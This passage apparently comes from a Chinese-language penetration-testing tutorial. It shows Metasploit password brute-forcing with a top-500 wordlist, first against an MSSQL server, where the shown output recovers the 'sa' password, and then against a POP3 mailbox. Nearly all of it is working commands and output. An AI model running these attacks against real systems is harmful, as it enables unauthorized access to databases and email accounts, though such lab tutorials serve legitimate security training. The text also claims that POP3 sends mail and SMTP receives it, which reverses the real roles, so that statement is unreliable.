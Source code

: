 ```bash
msf6 auxiliary(scanner/mssql/mssql_login) > set RHOSTS 192.168.31.57
RHOSTS => 192.168.31.57
msf6 auxiliary(scanner/mssql/mssql_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/mssql/mssql_login) > set PASS_FILE ./top500.txt
PASS_FILE => ./top500.txt
msf6 auxiliary(scanner/mssql/mssql_login) > run

[*] 192.168.31.57:1433    - 192.168.31.57:1433 - MSSQL - Starting authentication scanner.
[!] 192.168.31.57:1433    - No active DB -- Credential data will not be saved!
[-] 192.168.31.57:1433    - 192.168.31.57:1433 - LOGIN FAILED: WORKSTATION\sa: (Incorrect: )
[+] 192.168.31.57:1433    - 192.168.31.57:1433 - Login Successful: WORKSTATION\sa:123456
[*] 192.168.31.57:1433    - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.31.57:1433    - Bruteforce completed, 1 credential was successful.
[*] 192.168.31.57:1433    - You can open an MSSQL session with these credentials and CreateSession set to true
[*] Auxiliary module execution completed
```

### 7.2 邮箱爆破

 发邮件使用`pop3`协议，端口默认`110`。收邮件使用`smtp`服务，端口默认`25`。

```bash
msf6 auxiliary(scanner/pop3/pop3_login) > set RHOSTS 192.168.31.57
RHOSTS => 192.168.31.57
msf6 auxiliary(scanner/pop3/pop3_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/pop3/pop3_login) > set USERNAME test@redteam.com
USERNAME => test@redteam.com
msf6 auxiliary(scanner/pop3/pop3_login) > set PASS_FILE ./top500.txt
PASS_FILE => ./top500.txt
msf6 auxiliary(scanner/pop3/pop3_login) > exploit
```

![image-20250319215222421](穷举/image-20250319215222421.png)
